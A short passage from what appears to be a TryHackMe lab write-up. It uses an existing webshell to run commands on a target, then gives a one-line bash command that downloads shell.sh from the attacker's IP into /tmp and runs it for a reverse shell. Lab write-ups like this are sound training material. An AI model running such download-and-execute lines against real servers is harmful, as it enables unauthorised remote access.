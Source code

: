 Seeing the request used, we can do the same and get a reverse shell since there is already a webshell :

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111152223.png>)

We can successfully execute commands on the server :

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111150518.png>)

Now let's get a reverse shell :

```bash
cd /tmp;wget 10.9.1.117/shell.sh;chmod +x shell.sh;bash shell.sh
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111151357.png>)
